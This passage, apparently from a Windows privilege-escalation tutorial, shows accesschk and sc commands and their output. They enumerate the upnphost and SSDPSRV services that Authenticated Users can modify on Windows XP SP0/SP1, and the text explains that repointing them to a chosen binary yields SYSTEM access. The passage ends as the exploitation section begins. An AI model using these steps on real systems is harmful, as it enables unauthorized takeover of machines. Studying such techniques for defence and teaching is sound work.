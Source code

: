 ```powershell
C:\> accesschk.exe /accepteula -uwcqv "Authenticated Users" * 

# If we are on a Windows XP SP0 or SP1 OS we will receive the following output 

RW SSDPSRV
	SERVICE_ALL_ACCESS
RW upnphost
	SERVICE_ALL_ACCESS
```

The output implies that we have access to two services from which we can edit the service parameters, named upnphost and SSDPSRV. Let's take a closer look at both services.

```powershell
SSDPSRV C:\> accesschk.exe /accepteula -ucqv SSDPSRV 
SSDPSRV
	RW NT AUTHORITY\SYSTEM 
		SERVICE_ALL_ACCESS 
	RW BUILTIN\Administrators 
		SERVICE_ALL_ACCESS 
	RW NT AUTHORITY\Authenticated Users 
		SERVICE_ALL_ACCESS 
	RW BUILTIN\Power Users 
		SERVICE_ALL_ACCESS 
	RW NT AUTHORITY\LOCAL SERVICE 
		SERVICE_ALL_ACCESS

# upnphost

C:\> accesschk.exe /accepteula -ucqv upnphost 
upnphost 
	RW NT AUTHORITY\SYSTEM 
		SERVICE_ALL_ACCESS 
	RW BUILTIN\Administrators 
		SERVICE_ALL_ACCESS 
	RW NT AUTHORITY\Authenticated Users 
		SERVICE_ALL_ACCESS 
	RW BUILTIN\Power Users 
		SERVICE_ALL_ACCESS 
	RW NT AUTHORITY\LOCAL SERVICE 
		SERVICE_ALL_ACCESS
```

When we edit these services so they execute a binary of our choice, we can escalate our privileges to SYSTEM.

##### How to exploit it?

Before we exploit these services, let's check out how their parameters look at the moment.

```powershell
# upnphost 

C:\> sc qc upnphost 
[SC] GetServiceConfig SUCCESS

SERVICE_NAME: upnphost
	TYPE : 20 WIN32_SHARE_PROCESS
	START_TYPE : 3 DEMAND_START
	 ERROR_CONTROL : 1 NORMAL
	 BINARY_PATH_NAME : C:\WINDOWS\System32\svchost.exe -k LocalService
	 LOAD_ORDER_GROUP :
	 TAG : 0
	 DISPLAY_NAME : Universal Plug and Play Device Host
	 DEPENDENCIES : SSDPSRV
	 SERVICE_START_NAME : NT AUTHORITY\LocalService 
```